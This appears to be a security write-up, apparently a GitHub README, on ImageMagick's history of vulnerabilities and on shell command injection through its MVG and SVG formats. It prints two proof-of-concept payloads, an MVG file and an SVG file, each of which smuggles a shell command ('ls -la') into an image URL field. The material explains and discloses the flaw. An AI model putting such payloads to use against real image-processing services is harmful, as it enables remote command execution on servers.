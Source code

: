 > "an embarrassingly simple shell command injection bug reminiscent of the security weaknesses prevalent in the 90's, and nearly extinct in core libraries in use today" (@zalewski)

For all of ImageMagick's virtues, it is not designed with malicious inputs in mind, and has a long and colorful history of lesser known but equally serious security flaws. If you had only one data point, look no further than the work done by @cunningham circa 2014. @cunningham fuzzed ImageMagick with a `afl-fuzz`, and soon revealed nearly a couple of dozen exploitable security holes.

A more recent fuzzing effort by @hanno uncovered another family of heap related bugs, using only off-the-shelf fuzzing tools.

It seems, short of a major redesign the entire ImageMagick codebase, the trickle of security vulnerabilities won't be stopping anytime soon. It just hasn't been designed with security in mind.



## The SVG and MVG file formats (micro languages)

Perhaps the most dangerous aspect of ImageMagick lies in its implementation of micro languages (DSL's) for the Scalable Vector Graphic (the W3C standardised vector format) and its own Magick Vector Graphics (MVG) specification. These specifications, whilst powerful, bring with them a insane amount of complexity, and potential specification misinterpretion and security vulnerabilities in their implementations.

> The Magick Vector Graphics (MVG) specification is a modularized language for describing two-dimensional vector and mixed vector/raster graphics in ImageMagick. You can use the language to draw from the command line, from an MVG file, from an SVG -- Scalable Vector Graphics file or from one of the ImageMagick program interfaces.


The following example MVG command will render an arc:

    convert -size 100x60 canvas:skyblue -fill white -stroke black \
      -draw "path 'M 30,40  A 30,20  20  0,0 70,20 A 30,20  20  1,0 30,40 Z '" \
      arc.png

A more malicous varient of MVG that injects some extra shell:

    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://example.com/image.jpg";|ls "-la)'
    pop graphic-context


Similarly SVG's are just as dangerous:

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd";>
<svg width="640px" height="480px" version="1.1"
   xmlns="http://www.w3.org/2000/svg";
   xmlns:xlink="http://www.w3.org/1999/xlink";>
<image xlink:href="https://example.com/image.jpg&quot;|ls &quot;-la" 
  x="0" y="0" height="640px" width="480px"/>
</svg>
```
